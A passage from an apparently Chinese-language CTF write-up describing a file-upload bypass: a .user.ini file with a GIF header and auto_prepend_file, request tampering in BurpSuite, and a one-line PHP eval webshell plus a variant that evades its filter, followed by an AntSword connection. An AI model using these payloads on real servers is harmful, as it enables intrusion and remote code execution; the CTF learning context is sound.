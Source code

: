 `.user.ini`里的文件内容为：

```
GIF89a

auto_prepend_file=a.jpg
```

`GIF89a`是GIF类型的文件头

`auto_auto_prepend_file=a.jpg`中的a.jpg则是你要以php文件进行执行的文件名

编写好以上内容之后打开BurpSuite打开拦截然后抓包，将上传中的user.ini改为.user.ini即可

![Img](https://joker-1317382260.cos.ap-guangzhou.myqcloud.com/202305111500287.webp)

还需注意的是要将数据包中的`Content-Type`改为image/jpeg再放包。否则依然会被拦截

![Img](https://joker-1317382260.cos.ap-guangzhou.myqcloud.com/202305111503854.webp)

上传成功

接下来就是上传包含一句话木马并且文件名为a.jpg的文件

![Img](https://joker-1317382260.cos.ap-guangzhou.myqcloud.com/202305111511926.webp)

然后在浏览器打开F12，选择到网络那一的选项之后再放包

![Img](https://joker-1317382260.cos.ap-guangzhou.myqcloud.com/202305111513804.webp)

好家伙还是上传失败了，说明他存在检测一句话木马。

那就把`<?php eval($_REQUEST[8]); ?>`改成`<?= eval($_REQUEST[8]); ?>`

![Img](https://joker-1317382260.cos.ap-guangzhou.myqcloud.com/202305111516440.webp)

改完之后成功上传

这个时候直接看F12里的包，而不是直接去连路径

![Img](https://joker-1317382260.cos.ap-guangzhou.myqcloud.com/202305111517950.webp)

可以看到这里出现乱码了，说明我们上传的图片成功的被当作php执行了，这个时候就可以打开蚁剑直接连接这个页面的url

连接蚁剑的速度要快，否则很快图马就会被删除得重新上传

![Img](https://joker-1317382260.cos.ap-guangzhou.myqcloud.com/202305111521986.webp)

连接成功

flag的位置：

![Img](https://joker-1317382260.cos.ap-guangzhou.myqcloud.com/202305111521398.webp)

![Img](https://joker-1317382260.cos.ap-guangzhou.myqcloud.com/202305111522804.webp)

<br />

注：这题的flag是会变化的，连接后flag会立即刷新并且一旦提交flag后webshell会马上失效



## BUUCTF：不會結婚吧



---
